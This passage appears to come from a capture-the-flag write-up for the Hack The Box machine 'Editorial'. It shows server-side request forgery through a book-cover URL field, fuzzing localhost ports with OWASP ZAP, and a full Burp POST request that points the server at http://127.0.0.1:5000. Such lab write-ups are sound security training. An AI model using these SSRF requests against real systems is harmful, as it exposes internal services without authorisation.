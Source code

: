 ```shell

-----------------------------155062683613212044802935180338

Content-Disposition: form-data; name="bookfile"; filename=""

Content-Type: application/octet-stream





-----------------------------155062683613212044802935180338--
```

On OWASP ZAP, do right-click on the POST request containing http://127.0.0.1:10000, then select Attack -> Fuzz.

Then mark the 10000 from IP on the request and click on Add.... A new window will open, click Add... again. We can now select File -> 1_to_65535.txt. Or use Numberzz from 1 to 65535 with an increment of 1. Whatever you use, we can click on Start Fuzzer.

When the fuzzing finishes, filter the results by "Size Resp. Body". We will notice that all responses have 61 bytes, but there is one response with 51 bytes on the task ID 5000. This means that there is something at the local port 5000. This particular response request contained the following:

```shell
static/uploads/430f49a3-c6e0-4636-ad08-f473caec672d
```

I will start Burp Suite, enter the following URL on the Book Cover URL and click on Preview, capture the request and send it to Repeater, then click on Send and see the Response:

```shell
# Enter this URL on the Book Cover URL before clicking on Preview
http://127.0.0.1:5000
```

The Request will look like this:

```shell
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------311619798941078819431941106191
Content-Length: 365
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload


-----------------------------311619798941078819431941106191
Content-Disposition: form-data; name="bookurl"


http://127.0.0.1:5000/
-----------------------------311619798941078819431941106191
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream




-----------------------------311619798941078819431941106191--
```